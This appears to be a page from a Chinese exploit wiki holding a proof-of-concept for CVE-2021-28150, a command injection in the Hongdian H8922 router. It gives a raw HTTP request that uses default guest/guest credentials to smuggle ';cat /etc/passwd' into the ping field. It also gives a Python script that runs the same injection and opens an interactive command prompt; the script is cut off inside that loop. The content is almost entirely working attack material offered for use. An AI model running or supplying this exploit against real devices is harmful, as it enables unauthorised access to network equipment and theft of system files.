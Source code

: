 ![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhdLrofVz4Jy9qhiawib03bQPnw8ppD0riaP5pyib0CCnxsXMyAF9MpqOx8g/640?wx_fmt=png)

```
POST /tools.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```

```
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台命令执行漏洞 CVE-2021-28150                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/tools.cgi"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = "op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/tools.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功执行 cat /etc/passwd \033[0m".format(target_url))
            html = etree.HTML(response.text)
            cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
            print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
```